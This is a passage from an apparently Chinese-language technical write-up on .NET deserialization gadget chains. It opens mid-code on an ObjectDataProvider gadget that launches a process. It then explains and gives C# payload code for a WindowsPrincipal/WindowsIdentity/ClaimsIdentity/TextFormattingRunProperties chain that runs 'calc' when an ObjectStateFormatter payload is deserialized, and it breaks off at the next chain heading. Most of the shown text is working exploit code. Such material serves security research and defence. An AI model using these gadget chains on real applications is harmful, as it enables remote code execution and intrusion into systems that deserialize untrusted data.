 ```plain
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;
            _xaml = XamlWriter.Save(odp);
        }
    }
}
```

#### WindowsPrincipal+WindowsIdentity+ClaimsIdentity+TextFormattingRunProperties

**调用的类**：WindowsPrincipal+WindowsIdentity+ClaimsIdentity+TextFormattingRunProperties+ObjectDataProvider

**思路**：WindowsPrincipal类字段m\_identity类型为WindowsIdentity，当反序列化时，WindowsIdentity将被调用构造函数，就是上面七年的链子再次使用

payload：

```plain
class Program
    {
        static void Main(string[] args)
        {
            WindowsIdentity currentWI = WindowsIdentity.GetCurrent();
            currentWI.Actor = new ClaimsIdentity();
            currentWI.Actor.BootstrapContext = new TextFormattingRunPropertiesMarshal("calc");
            WindowsPrincipalMarshal obj = new WindowsPrincipalMarshal();
            obj.wi = currentWI;
            string v = new ObjectStateFormatter().Serialize(obj);
            new ObjectStateFormatter().Deserialize(v);
        }


    }
    [Serializable]
    public class WindowsPrincipalMarshal : ISerializable
    {
        public WindowsPrincipalMarshal() { }
        public WindowsIdentity wi { get; set; }
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsPrincipal));
            info.AddValue("m_identity", wi);
        }
    }
```

#### SessionSecurityToken+TextFormattingRunProperties

